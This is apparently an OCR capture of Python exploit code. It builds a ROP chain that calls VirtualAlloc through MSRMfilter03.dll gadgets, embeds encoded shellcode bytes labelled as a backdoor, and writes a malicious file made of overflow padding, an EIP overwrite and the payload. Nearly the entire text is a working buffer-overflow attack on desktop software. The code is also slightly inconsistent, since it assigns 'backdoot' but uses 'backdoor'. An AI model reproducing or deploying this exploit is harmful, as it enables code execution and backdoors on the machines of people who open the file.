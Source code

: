 ```
rop += struct.pack('<L',0x10019ee8)	# POP EBX # RETN
rop += struct.pack('<L',0xffffffff)
rop += struct.pack('<L',0x100319d3)	# INC EBX # FPATAN # RETN
rop += struct.pack('<L',0x100319d3)	# INC EBX # FPATAN # RETN

rop += struct.pack('<L',0x10031912)	# POP EAX # RETN
rop += struct.pack('<L',0x90909090)

rop += struct.pack('<L',0x10014720) # PUSHAD # RETN


buf =  ""
buf += "\xba\xd5\xf6\x2f\x9c\xdb\xd4\xd9\x74\x24\xf4\x5e\x31"
buf += "\xc9\xb1\x56\x31\x56\x13\x03\x56\x13\x83\xc6\xd1\x14"
buf += "\xda\x60\x31\x5a\x25\x99\xc1\x3b\xaf\x7c\xf0\x7b\xcb"
buf += "\xf5\xa2\x4b\x9f\x58\x4e\x27\xcd\x48\xc5\x45\xda\x7f"
buf += "\x6e\xe3\x3c\xb1\x6f\x58\x7c\xd0\xf3\xa3\x51\x32\xca"
buf += "\x6b\xa4\x33\x0b\x91\x45\x61\xc4\xdd\xf8\x96\x61\xab"
buf += "\xc0\x1d\x39\x3d\x41\xc1\x89\x3c\x60\x54\x82\x66\xa2"
buf += "\x56\x47\x13\xeb\x40\x84\x1e\xa5\xfb\x7e\xd4\x34\x2a"
buf += "\x4f\x15\x9a\x13\x60\xe4\xe2\x54\x46\x17\x91\xac\xb5"
buf += "\xaa\xa2\x6a\xc4\x70\x26\x69\x6e\xf2\x90\x55\x8f\xd7"
buf += "\x47\x1d\x83\x9c\x0c\x79\x87\x23\xc0\xf1\xb3\xa8\xe7"
buf += "\xd5\x32\xea\xc3\xf1\x1f\xa8\x6a\xa3\xc5\x1f\x92\xb3"
buf += "\xa6\xc0\x36\xbf\x4a\x14\x4b\xe2\x02\xd9\x66\x1d\xd2"
buf += "\x75\xf0\x6e\xe0\xda\xaa\xf8\x48\x92\x74\xfe\xd9\xb4"
buf += "\x86\xd0\x61\xd4\x78\xd1\x91\xfc\xbe\x85\xc1\x96\x17"
buf += "\xa6\x8a\x66\x97\x73\x26\x6d\x0f\xbc\x1e\x71\x0c\x54"
buf += "\x5c\x72\xb1\x8d\xe9\x94\xe5\x9d\xb9\x08\x46\x4e\x79"
buf += "\xf9\x2e\x84\x76\x26\x4e\xa7\x5d\x4f\xe5\x48\x0b\x27"
buf += "\x92\xf1\x16\xb3\x03\xfd\x8d\xb9\x04\x75\x27\x3d\xca"
buf += "\x7e\x42\x2d\x3b\x19\xac\xad\xbc\x8c\xac\xc7\xb8\x06"
buf += "\xfb\x7f\xc3\x7f\xcb\xdf\x3c\xaa\x48\x27\xc2\x2b\x78"
buf += "\x53\xf5\xb9\xc4\x0b\xfa\x2d\xc4\xcb\xac\x27\xc4\xa3"
buf += "\x08\x1c\x97\xd6\x56\x89\x84\x4a\xc3\x32\xfc\x3f\x44"
buf += "\x5b\x02\x19\xa2\xc4\xfd\x4c\xb0\x03\x01\x12\x9f\xab"
buf += "\x69\xec\x9f\x4b\x69\x86\x1f\x1c\x01\x5d\x0f\x93\xe1"
buf += "\x9e\x9a\xfc\x69\x14\x4b\x4e\x08\x29\x46\x0e\x94\x2a"
buf += "\x65\x8b\x27\x50\x06\x2c\xc8\xa5\x0e\x49\xc9\xa5\x2e"
buf += "\x6f\xf6\x73\x17\x05\x39\x40\x2c\x16\x0c\xe5\x05\xbd"
buf += "\x6e\xb9\x56\x94"
backdoot = buf

#---------------------------------------------------------------------#
# Badchars: '\x00\x09\x0a'                                            #
# kernel32.virtualalloc: 0x1005d060 (MSRMfilter03.dll)                #
# EIP: 0x10013483 Random RETN (MSRMfilter03.dll)                      #
#---------------------------------------------------------------------#
shell = '\x90'*5 + backdoor
target = "http://." + "A"*17416 + "\x83\x34\x01\x10" + rop + shell + "C"*(7572-len(rop))

writeFile = open(file, "w")
writeFile.write(target)
writeFile.close()
```